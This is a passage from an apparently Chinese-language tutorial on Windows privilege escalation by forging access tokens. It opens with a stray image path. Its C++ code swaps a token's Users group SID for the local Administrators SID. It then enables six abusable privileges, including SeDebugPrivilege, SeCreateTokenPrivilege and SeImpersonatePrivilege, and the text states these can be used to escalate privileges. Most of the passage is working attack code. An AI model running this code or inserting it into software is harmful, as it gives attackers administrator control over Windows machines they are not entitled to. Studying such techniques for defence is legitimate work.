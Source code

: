 ```c++
  	pSid = (PISID)pTokenGroups->Groups[i].Sid;
  	if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
  	{
    	memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
    	pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
    	wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
  	}
  	else
  	{
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
  	}
}
```

于此同时，我们当然可以为新生成的令牌开启一些新的危险特权。如下所示，`SetTokenPrivileges()` 函数在令牌的 TokenPrivileges 信息中启用了以下六个特权，他们都可以被滥用以实现特权提升。

- SeImpersonatePrivilege
- SeAssignPrimaryTokenPrivilege
- SeCreateTokenPrivilege
- SeRestorePrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

```c++
void SetTokenPrivileges(PTOKEN_PRIVILEGES pTokenPrivileges)
{
	LUID luid;

	pTokenPrivileges->PrivilegeCount = 6;

	// Enable SeImpersonatePrivilege
	LookupPrivilegeValue(NULL, SE_IMPERSONATE_NAME, &luid);
	pTokenPrivileges->Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[0].Luid = luid;

	// Enable SeAssignPrimaryTokenPrivilege
	LookupPrivilegeValue(NULL, SE_ASSIGNPRIMARYTOKEN_NAME, &luid);
	pTokenPrivileges->Privileges[1].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[1].Luid = luid;

	// Enable SeCreateTokenPrivilege
	LookupPrivilegeValue(NULL, SE_CREATE_TOKEN_NAME, &luid);
	pTokenPrivileges->Privileges[2].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[2].Luid = luid;

	// Enable SeRestorePrivilege
	LookupPrivilegeValue(NULL, SE_RESTORE_NAME, &luid);
	pTokenPrivileges->Privileges[3].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[3].Luid = luid;

	// Enable SeTakeOwnershipPrivilege
	LookupPrivilegeValue(NULL, SE_TAKE_OWNERSHIP_NAME, &luid);
	pTokenPrivileges->Privileges[4].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[4].Luid = luid;

	// Enable SeDebugPrivilege
	LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid);
	pTokenPrivileges->Privileges[5].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[5].Luid = luid;
}
```
